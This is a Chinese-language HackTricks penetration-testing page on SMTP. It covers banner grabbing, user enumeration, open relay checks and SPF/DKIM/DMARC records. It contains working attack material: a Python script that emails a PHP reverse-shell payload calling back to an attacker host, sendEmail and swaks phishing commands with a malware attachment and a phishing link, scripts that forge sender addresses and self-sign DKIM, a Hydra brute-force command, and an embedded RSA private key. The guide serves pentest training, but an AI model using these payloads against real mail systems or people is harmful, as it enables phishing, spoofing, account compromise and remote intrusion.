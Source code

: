 # 25,465,587 - Pentesting SMTP/s

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 从黑客的角度看待您的网络应用、网络和云

**发现并报告具有实际商业影响的关键可利用漏洞。** 使用我们 20 多个自定义工具来映射攻击面，查找允许您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **基本信息**

**简单邮件传输协议 (SMTP)** 是在 TCP/IP 套件中用于 **发送和接收电子邮件** 的协议。由于其在接收方排队消息的局限性，SMTP 通常与 **POP3 或 IMAP** 一起使用。这些附加协议使用户能够将消息存储在服务器邮箱中并定期下载。

在实践中，**电子邮件程序** 通常使用 **SMTP 发送电子邮件**，而使用 **POP3 或 IMAP 接收** 它们。在基于 Unix 的系统中，**sendmail** 是最常用于电子邮件的 SMTP 服务器。商业软件包 Sendmail 包含一个 POP3 服务器。此外，**Microsoft Exchange** 提供一个 SMTP 服务器，并提供包括 POP3 支持的选项。

**默认端口：** 25,465(ssl),587(ssl)
```
PORT   STATE SERVICE REASON  VERSION
25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.3959
```
### EMAIL Headers

如果你有机会**让受害者给你发送一封邮件**（例如通过网页的联系表单），请这样做，因为**你可以通过查看邮件的头部了解受害者的内部拓扑**。

你也可以从SMTP服务器获取一封邮件，尝试**向该服务器发送一封邮件到一个不存在的地址**（因为服务器会向攻击者发送一封NDN邮件）。但是，请确保你从一个允许的地址发送邮件（检查SPF策略），并且你可以接收NDN消息。

你还应该尝试**发送不同的内容，因为你可以在头部找到更有趣的信息**，例如：`X-Virus-Scanned: by av.domain.com`\
你应该发送EICAR测试文件。\
检测**AV**可能允许你利用**已知漏洞**。

## Basic actions

### **Banner Grabbing/Basic connection**

**SMTP:**
```bash
nc -vn <IP> 25
```
**SMTPS**:
```bash
openssl s_client -crlf -connect smtp.mailgun.org:465 #SSL/TLS without starttls command
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
```
### 查找组织的 MX 服务器
```bash
dig +short mx google.com
```
### 枚举
```bash
nmap -p25 --script smtp-commands 10.10.10.10
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### NTLM Auth - 信息泄露

如果服务器支持 NTLM 认证（Windows），您可以获取敏感信息（版本）。更多信息 [**这里**](https://medium.com/@m8r0wn/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666)。
```bash
root@kali: telnet example.com 587
220 example.com SMTP Server Banner
>> HELO
250 example.com Hello [x.x.x.x]
>> AUTH NTLM 334
NTLM supported
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
334 TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```
或**自动化**此操作，使用**nmap**插件`smtp-ntlm-info.nse`

### 内部服务器名称 - 信息泄露

一些SMTP服务器在发出“MAIL FROM”命令时，如果没有完整地址，会自动补全发件人的地址，从而泄露其内部名称：
```
220 somedomain.com Microsoft ESMTP MAIL Service, Version: Y.Y.Y.Y ready at  Wed, 15 Sep 2021 12:13:28 +0200
EHLO all
250-somedomain.com Hello [x.x.x.x]
250-TURN
250-SIZE 52428800
250-ETRN
250-PIPELINING
250-DSN
250-ENHANCEDSTATUSCODES
250-8bitmime
250-BINARYMIME
250-CHUNKING
250-VRFY
250 OK
MAIL FROM: me
250 2.1.0 me@PRODSERV01.somedomain.com....Sender OK
```
### Sniffing

检查是否从发送到端口 25 的数据包中嗅探到一些密码

### [Auth bruteforce](../../generic-methodologies-and-resources/brute-force.md#smtp)

## 用户名暴力破解枚举

**认证并不总是需要**

### RCPT TO
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
MAIL FROM:example@domain.com
250 2.1.0 example@domain.com... Sender ok
RCPT TO:test
550 5.1.1 test... User unknown
RCPT TO:admin
550 5.1.1 admin... User unknown
RCPT TO:ed
250 2.1.5 ed... Recipient ok
```
### VRFY
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
VRFY root
250 Super-User root@myhost
VRFY blah
550 blah... User unknown
```
### EXPN
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
EXPN test
550 5.1.1 test... User unknown
EXPN root
250 2.1.5 ed.williams@myhost
EXPN sshd
250 2.1.5 sshd privsep sshd@myhost
```
### 自动化工具
```
Metasploit: auxiliary/scanner/smtp/smtp_enum
smtp-user-enum: smtp-user-enum -M <MODE> -u <USER> -t <IP>
Nmap: nmap --script smtp-enum-users <IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 从黑客的角度看待您的网络应用、网络和云

**查找并报告具有实际业务影响的关键可利用漏洞。** 使用我们20多个自定义工具来映射攻击面，查找允许您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## DSN报告

**投递状态通知报告**：如果您向一个组织发送电子邮件到一个**无效地址**，该组织将通知您该地址无效，并**回复您一封邮件**。**返回邮件的头部**将**包含**可能的**敏感信息**（如与报告交互的邮件服务的IP地址或防病毒软件信息）。

## [命令](smtp-commands.md)

### 从linux控制台发送电子邮件
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a /tmp/malware.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```

```bash
swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```
### 使用 Python 发送电子邮件

<details>

<summary>这里是 Python 代码</summary>
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = ""
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"

# payload
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
print("[-]Connection Error")
exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```
</details>

## SMTP Smuggling

SMTP Smuggling 漏洞允许绕过所有 SMTP 保护（有关保护的更多信息，请查看下一节）。有关 SMTP Smuggling 的更多信息，请查看：

{% content-ref url="smtp-smuggling.md" %}
[smtp-smuggling.md](smtp-smuggling.md)
{% endcontent-ref %}

## 邮件伪造对策

由于伪造 SMTP 消息的容易性，组织通过采用 **SPF**、**DKIM** 和 **DMARC** 来防止未经授权的电子邮件代表他们发送。

有关这些对策的 **完整指南** 可在 [https://seanthegeek.net/459/demystifying-dmarc/](https://seanthegeek.net/459/demystifying-dmarc/) 上找到。

### SPF

{% hint style="danger" %}
SPF [在 2014 年被“弃用”](https://aws.amazon.com/premiumsupport/knowledge-center/route53-spf-record/)。这意味着您应该在 `domain.com` 中创建 **TXT 记录**，而不是在 `_spf.domain.com` 中，使用 **相同的语法**。\
此外，为了重用以前的 SPF 记录，通常会发现类似于 `"v=spf1 include:_spf.google.com ~all"` 的内容。
{% endhint %}

**发送方策略框架**（SPF）是一种机制，使邮件传输代理（MTA）能够通过查询组织定义的授权邮件服务器列表来验证发送电子邮件的主机是否被授权。该列表指定了 **被授权代表域名发送电子邮件的 IP 地址/范围、域名和其他实体**，并在 SPF 记录中包含各种“**机制**”。

#### 机制

来自 [维基百科](https://en.wikipedia.org/wiki/Sender\_Policy\_Framework)：

| 机制      | 描述                                                                                                                                                                                                                                                                                                                         |
| --------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ALL       | 始终匹配；用于默认结果，如 `-all`，适用于未被先前机制匹配的所有 IP。                                                                                                                                                                                                                                  |
| A         | 如果域名有一个地址记录（A 或 AAAA），且可以解析为发送者的地址，则匹配。                                                                                                                                                                                                                   |
| IP4       | 如果发送者在给定的 IPv4 地址范围内，则匹配。                                                                                                                                                                                                                                                                              |
| IP6       | 如果发送者在给定的 IPv6 地址范围内，则匹配。                                                                                                                                                                                                                                                                              |
| MX        | 如果域名有一个 MX 记录解析为发送者的地址，则匹配（即邮件来自该域的一个入站邮件服务器）。                                                                                                                                                                          |
| PTR       | 如果客户端地址的域名（PTR 记录）在给定域中，并且该域名解析为客户端地址（前向确认的反向 DNS），则匹配。此机制不推荐使用，尽可能避免。                                                                                     |
| EXISTS    | 如果给定的域名解析为任何地址，则匹配（无论解析为哪个地址）。这很少使用。与 SPF 宏语言一起，它提供了更复杂的匹配，如 DNSBL 查询。                                                                                                                           |
| INCLUDE   | 引用另一个域的策略。如果该域的策略通过，则此机制通过。然而，如果包含的策略失败，则继续处理。要完全委托给另一个域的策略，必须使用重定向扩展。                                                                                     |
| REDIRECT  | <p>重定向是指向另一个域名的指针，该域名托管 SPF 策略，它允许多个域共享相同的 SPF 策略。当处理大量共享相同电子邮件基础设施的域时，它非常有用。</p><p>将使用重定向机制中指示的域的 SPF 策略。</p> |

还可以识别 **限定符**，指示 **如果匹配机制应该采取什么措施**。默认情况下，使用 **限定符 "+"**（因此如果匹配任何机制，则表示允许）。\
您通常会注意到 **每个 SPF 策略的末尾** 有类似于：**\~all** 或 **-all** 的内容。这用于指示 **如果发送者不匹配任何 SPF 策略，则应将电子邮件标记为不可信（\~）或拒绝（-）该电子邮件。**

#### 限定符

策略中的每个机制可以由四个限定符之一前缀，以定义预期结果：

* **`+`**：对应于通过结果。默认情况下，机制假定此限定符，使得 `+mx` 等同于 `mx`。
* **`?`**：表示中立结果，类似于无（没有特定策略）。
* **`~`**：表示软失败，作为中立和失败之间的中间状态。符合此结果的电子邮件通常被接受，但会相应标记。
* **`-`**：表示失败，建议电子邮件应被直接拒绝。

在接下来的示例中，**google.com 的 SPF 策略** 被说明。请注意在第一个 SPF 策略中包含来自不同域的 SPF 策略：
```shell-session
dig txt google.com | grep spf
google.com.             235     IN      TXT     "v=spf1 include:_spf.google.com ~all"

dig txt _spf.google.com | grep spf
; <<>> DiG 9.11.3-1ubuntu1.7-Ubuntu <<>> txt _spf.google.com
;_spf.google.com.               IN      TXT
_spf.google.com.        235     IN      TXT     "v=spf1 include:_netblocks.google.com include:_netblocks2.google.com include:_netblocks3.google.com ~all"

dig txt _netblocks.google.com | grep spf
_netblocks.google.com.  1606    IN      TXT     "v=spf1 ip4:35.190.247.0/24 ip4:64.233.160.0/19 ip4:66.102.0.0/20 ip4:66.249.80.0/20 ip4:72.14.192.0/18 ip4:74.125.0.0/16 ip4:108.177.8.0/21 ip4:173.194.0.0/16 ip4:209.85.128.0/17 ip4:216.58.192.0/19 ip4:216.239.32.0/19 ~all"

dig txt _netblocks2.google.com | grep spf
_netblocks2.google.com. 1908    IN      TXT     "v=spf1 ip6:2001:4860:4000::/36 ip6:2404:6800:4000::/36 ip6:2607:f8b0:4000::/36 ip6:2800:3f0:4000::/36 ip6:2a00:1450:4000::/36 ip6:2c0f:fb50:4000::/36 ~all"

dig txt _netblocks3.google.com | grep spf
_netblocks3.google.com. 1903    IN      TXT     "v=spf1 ip4:172.217.0.0/19 ip4:172.217.32.0/20 ip4:172.217.128.0/19 ip4:172.217.160.0/20 ip4:172.217.192.0/19 ip4:172.253.56.0/21 ip4:172.253.112.0/20 ip4:108.177.96.0/19 ip4:35.191.0.0/16 ip4:130.211.0.0/22 ~all"
```
传统上，可以伪造任何没有正确/任何 SPF 记录的域名。**如今**，如果 **电子邮件** 来自 **没有有效 SPF 记录的域名**，则可能会 **自动被拒绝/标记为不可信**。

要检查域的 SPF，您可以使用在线工具，例如：[https://www.kitterman.com/spf/validate.html](https://www.kitterman.com/spf/validate.html)

### DKIM (DomainKeys Identified Mail)

DKIM 用于签署外发电子邮件，允许外部邮件传输代理 (MTA) 通过从 DNS 检索域的公钥来验证它们。此公钥位于域的 TXT 记录中。要访问此密钥，必须知道选择器和域名。

例如，要请求密钥，域名和选择器是必需的。这些可以在邮件头 `DKIM-Signature` 中找到，例如 `d=gmail.com;s=20120113`。

获取此信息的命令可能如下所示：
```bash
dig 20120113._domainkey.gmail.com TXT | grep p=
# This command would return something like:
20120113._domainkey.gmail.com. 280 IN   TXT    "k=rsa\; p=MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1Kd87/UeJjenpabgbFwh+eBCsSTrqmwIYYvywlbhbqoo2DymndFkbjOVIPIldNs/m40KF+yzMn1skyoxcTUGCQs8g3
```
### DMARC (基于域的消息认证、报告和一致性)

DMARC 通过建立在 SPF 和 DKIM 协议之上来增强电子邮件安全性。它概述了指导邮件服务器处理来自特定域的电子邮件的政策，包括如何处理身份验证失败以及将关于电子邮件处理操作的报告发送到哪里。

**要获取 DMARC 记录，您需要查询子域 \_dmarc**
```bash
# Reject
dig _dmarc.facebook.com txt | grep DMARC
_dmarc.facebook.com.	3600	IN	TXT	"v=DMARC1; p=reject; rua=mailto:a@dmarc.facebookmail.com; ruf=mailto:fb-dmarc@datafeeds.phishlabs.com; pct=100"

# Quarantine
dig _dmarc.google.com txt | grep DMARC
_dmarc.google.com.	300	IN	TXT	"v=DMARC1; p=quarantine; rua=mailto:mailauth-reports@google.com"

# None
dig _dmarc.bing.com txt | grep DMARC
_dmarc.bing.com.	3600	IN	TXT	"v=DMARC1; p=none; pct=100; rua=mailto:BingEmailDMARC@microsoft.com;"
```
#### DMARC 标签

| 标签名称 | 目的                                         | 示例                             |
| -------- | -------------------------------------------- | -------------------------------- |
| v        | 协议版本                                    | v=DMARC1                         |
| pct      | 受过滤消息的百分比                          | pct=20                           |
| ruf      | 法医报告的报告 URI                          | ruf=mailto:authfail@example.com  |
| rua      | 汇总报告的报告 URI                          | rua=mailto:aggrep@example.com    |
| p        | 组织域的策略                                | p=quarantine                     |
| sp       | 组织域子域的策略                            | sp=reject                        |
| adkim    | DKIM 的对齐模式                             | adkim=s                          |
| aspf     | SPF 的对齐模式                              | aspf=r                           |

### **子域怎么办？**

**来自** [**这里**](https://serverfault.com/questions/322949/do-spf-records-for-primary-domain-apply-to-subdomains)**.**\
您需要为每个希望发送邮件的子域拥有单独的 SPF 记录。\
以下内容最初发布在 openspf.org，该网站曾是此类信息的极好资源。

> 恶魔问题：子域怎么办？
>
> 如果我从 pielovers.demon.co.uk 收到邮件，而 pielovers 没有 SPF 数据，我应该回到上一级并测试 demon.co.uk 的 SPF 吗？不应该。Demon 的每个子域都是不同的客户，每个客户可能有自己的政策。Demon 的政策默认适用于所有客户是没有意义的；如果 Demon 想这样做，可以为每个子域设置 SPF 记录。
>
> 因此，给 SPF 发布者的建议是：您应该为每个具有 A 或 MX 记录的子域或主机名添加 SPF 记录。
>
> 具有通配符 A 或 MX 记录的网站也应该具有通配符 SPF 记录，形式为：\* IN TXT "v=spf1 -all"

这很有道理——子域可能位于不同的地理位置，并且具有非常不同的 SPF 定义。

### **开放转发**

发送电子邮件时，确保它们不会被标记为垃圾邮件至关重要。这通常通过使用**收件人信任的中继服务器**来实现。然而，一个常见的挑战是管理员可能并不完全了解哪些**IP 范围是安全的**。这种缺乏理解可能导致在设置 SMTP 服务器时出现错误，这是安全评估中经常识别的风险。

一些管理员使用的解决方法是允许来自任何 IP 地址的连接，以避免电子邮件投递问题，特别是与潜在或正在进行的客户的通信。这是通过将 SMTP 服务器的 `mynetworks` 参数配置为接受所有 IP 地址来实现的，如下所示：
```bash
mynetworks = 0.0.0.0/0
```
为了检查邮件服务器是否是开放转发（这意味着它可以从任何外部来源转发电子邮件），通常使用 `nmap` 工具。它包括一个专门用于测试的脚本。使用 `nmap` 在端口 25 上对服务器（例如，IP 为 10.10.10.10）进行详细扫描的命令是：
```bash
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### **工具**

* [**https://github.com/serain/mailspoof**](https://github.com/serain/mailspoof) **检查 SPF 和 DMARC 配置错误**
* [**https://pypi.org/project/checkdmarc/**](https://pypi.org/project/checkdmarc/) **自动获取 SPF 和 DMARC 配置**

### 发送伪造邮件

* [**https://www.mailsploit.com/index**](https://www.mailsploit.com/index)
* [**http://www.anonymailer.net/**](http://www.anonymailer.net)
* [**https://emkei.cz/**](https://emkei.cz/)

**或者你可以使用一个工具：**

* [**https://github.com/magichk/magicspoofing**](https://github.com/magichk/magicspoofing)
```bash
# This will send a test email from test@victim.com to destination@gmail.com
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com
# But you can also modify more options of the email
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com --subject TEST --sender administrator@victim.com
```
{% hint style="warning" %}
如果您在使用 dkim python lib 解析密钥时遇到任何 **错误**，请随意使用以下内容。\
**注意**：这只是一个临时解决方案，用于在某些情况下快速检查，其中由于某种原因 openssl 私钥 **无法被 dkim 解析**。
```
-----BEGIN RSA PRIVATE KEY-----
MIICXgIBAAKBgQDdkohAIWT6mXiHpfAHF8bv2vHTDboN2dl5pZKG5ZSHCYC5Z1bt
spr6chlrPUX71hfSkk8WxnJ1iC9Moa9sRzdjBrxPMjRDgP8p8AFdpugP5rJJXExO
pkZcdNPvCXGYNYD86Gpous6ubn6KhUWwDD1bw2UFu53nW/AK/EE4/jeraQIDAQAB
AoGAe31lrsht7TWH9aJISsu3torCaKyn23xlNuVO6xwdUb28Hpk327bFpXveKuS1
koxaLqQYrEriFBtYsU8T5Dc06FQAVLpUBOn+9PcKlxPBCLvUF+/KbfHF0q1QbeZR
fgr+E+fPxwVPxxk3i1AwCP4Cp1+bz2s58wZXlDBkWZ2YJwECQQD/f4bO2lnJz9Mq
1xsL3PqHlzIKh+W+yiGmQAELbgOdX4uCxMxjs5lwGSACMH2nUwXx+05RB8EM2m+j
ZBTeqxDxAkEA3gHyUtVenuTGClgYpiwefaTbGfYadh0z2KmiVcRqWzz3hDUEWxhc
GNtFT8wzLcmRHB4SQYUaS0Df9mpvwvdB+QJBALGv9Qci39L0j/15P7wOYMWvpwOf
422+kYxXcuKKDkWCTzoQt7yXCRzmvFYJdznJCZdymNLNu7q+p2lQjxsUiWECQQCI
Ms2FP91ywYs1oWJN39c84byBKtiFCdla3Ib48y0EmFyJQTVQ5ZrqrOrSz8W+G2Do
zRIKHCxLapt7w0SZabORAkEAxvm5pd2MNVqrqMJHbukHY1yBqwm5zVIYr75eiIDP
K9B7U1w0CJFUk6+4Qutr2ROqKtNOff9KuNRLAOiAzH3ZbQ==
-----END RSA PRIVATE KEY-----
```
{% endhint %}

**或者你可以手动执行：**

{% tabs %}
{% tab title="PHP" %}
<pre class="language-php"><code class="lang-php"><strong># 这将发送一条未签名的消息
</strong><strong>mail("your_email@gmail.com", "测试主题！", "嘿！这是一个测试", "来自：administrator@victim.com");
</strong></code></pre>
{% endtab %}

{% tab title="Python" %}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
<body>
<h3>This is a test, not a scam</h3>
<br />
</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()

# Sign email with dkim
## The receiver won't be able to check it, but the email will appear as signed (and therefore, more trusted)
dkim_selector="s1"
sig = dkim.sign(message=msg_data,selector=str(dkim_selector).encode(),domain=sender_domain.encode(),privkey=dkim_private_key.encode(),include_headers=headers)
msg["DKIM-Signature"] = sig[len("DKIM-Signature: ") :].decode()
msg_data = msg.as_bytes()

# Use local postfix relay to send email
smtp="127.0.0.1"
s = smtplib.SMTP(smtp)
s.sendmail(sender, [destination], msg_data)
```
{% endtab %}
{% endtabs %}

### **更多信息**

**在** [**https://seanthegeek.net/459/demystifying-dmarc/**](https://seanthegeek.net/459/demystifying-dmarc/) **中找到有关这些保护的更多信息**

### **其他钓鱼指标**

* 域名的年龄
* 指向IP地址的链接
* 链接操控技术
* 可疑（不常见）附件
* 损坏的电子邮件内容
* 使用的值与邮件头不同
* 存在有效且受信任的SSL证书
* 将页面提交给网络内容过滤网站

## 通过SMTP进行外泄

**如果您可以通过SMTP发送数据** [**请阅读此文**](../../generic-methodologies-and-resources/exfiltration.md#smtp)**。**

## 配置文件

### Postfix

通常，如果已安装，`/etc/postfix/master.cf` 中包含 **在用户收到新邮件时执行的脚本**。例如，`flags=Rq user=mark argv=/etc/postfix/filtering-f ${sender} -- ${recipient}` 这一行意味着如果用户mark收到新邮件，将执行`/etc/postfix/filtering`。

其他配置文件：
```
sendmail.cf
submit.cf
```
## 参考文献

* [https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/](https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/)
* [https://www.reddit.com/r/HowToHack/comments/101it4u/what\_could\_hacker\_do\_with\_misconfigured\_smtp/](https://www.reddit.com/r/HowToHack/comments/101it4u/what\_could\_hacker\_do\_with\_misconfigured\_smtp/)

## HackTricks 自动命令
```
Protocol_Name: SMTP    #Protocol Abbreviation if there is one.
Port_Number:  25,465,587     #Comma separated if there is more than one.
Protocol_Description: Simple Mail Transfer Protocol          #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for SMTP
Note: |
SMTP (Simple Mail Transfer Protocol) is a TCP/IP protocol used in sending and receiving e-mail. However, since it is limited in its ability to queue messages at the receiving end, it is usually used with one of two other protocols, POP3 or IMAP, that let the user save messages in a server mailbox and download them periodically from the server.

https://book.hacktricks.xyz/pentesting/pentesting-smtp

Entry_2:
Name: Banner Grab
Description: Grab SMTP Banner
Command: nc -vn {IP} 25

Entry_3:
Name: SMTP Vuln Scan
Description: SMTP Vuln Scan With Nmap
Command: nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 {IP}

Entry_4:
Name: SMTP User Enum
Description: Enumerate uses with smtp-user-enum
Command: smtp-user-enum -M VRFY -U {Big_Userlist} -t {IP}

Entry_5:
Name: SMTPS Connect
Description: Attempt to connect to SMTPS two different ways
Command: openssl s_client -crlf -connect {IP}:465 &&&& openssl s_client -starttls smtp -crlf -connect {IP}:587

Entry_6:
Name: Find MX Servers
Description: Find MX servers of an organization
Command: dig +short mx {Domain_Name}

Entry_7:
Name: Hydra Brute Force
Description: Need Nothing
Command: hydra -P {Big_Passwordlist} {IP} smtp -V

Entry_8:
Name: consolesless mfs enumeration
Description: SMTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_version; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_ntlm_domain; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_relay; set RHOSTS {IP}; set RPORT 25; run; exit'

```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 从黑客的角度看待您的网络应用、网络和云

**发现并报告具有实际商业影响的关键可利用漏洞。** 使用我们20多个自定义工具来映射攻击面，找到让您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}
